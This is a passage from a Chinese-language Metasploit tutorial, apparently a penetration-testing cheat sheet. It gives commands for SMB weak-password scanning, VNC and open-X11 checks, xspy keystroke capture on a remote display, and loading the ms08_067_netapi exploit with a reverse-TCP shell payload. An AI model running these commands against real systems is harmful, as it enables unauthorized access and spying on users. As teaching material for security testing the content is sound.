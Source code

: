 nessus_report_list #查看扫描结果 
nessus_report_get skjla243-3b5d-* #导入报告 
db_hosts –c address,svcs,vulns

#### 4、特殊扫描： 
* SMB 弱口令: 
```
msf> use auxiliary/scanner/smb/smb_login 
set RHOSTS 192.168.1.111-222 
set SMBUser Administrator 
set SMBPass admin 
run 
```
* VNC 空口令： 
```
msf> use auxiliary/scanner/vnc/vnc_none_auth 
set RHOSTS 192.168.1.111 
run
``` 
* Open X11 空口令： 
```
msf> use auxiliary/scanner/x11/open_x11 
set RHOST 192.168.1.0/24 
set THREADS 50 
run 
```
* 当扫描到此漏洞的主机后可以使用xspy 工具来监视对方的键盘输入： 
```
cd /pentest/sniffers/xspy/ 
./xspy –display 192.168.1.125:0 –delay 100 
（xspy 这货在bt5 r1 里面貌似木有了）
```

### 五．基础溢出命令 
#### 1、基本命令： 
查看可用溢出模块 **show exploits** 
查看辅助模块 **show auxiliary** 包括扫描器，拒绝服务模块，fuzzer 工具或其他。 
查看可用选项 **show options** 
* 加载模块后退出此模块 **back** 
例子： msf> use windows/smb/ms08_067_netapi 
back 
* 搜索模块search 
例子： searh mssql search ms08_067 
* 查看当前模块可用的payload： **show payloads** 
例子： 
use windows/smb/ms08_067_netapi 
show payloads 
set payload windows/shell/reverse_tcp 
show options 

**查看可选的目标类型** **show targets** 
**查看更多信息** **info** 
设置一个选项或取消设置 **set/unset** 
设置或取消全局选项 **setg/unsetg** 例如设置LHOST 就可以用setg，避免后面重复设置 
保存全局选项的设置 **save** 当下次启动仍然生效 
查看建立的session **sessions –l** 
激活session **sessions –i num** #num 为session 编号
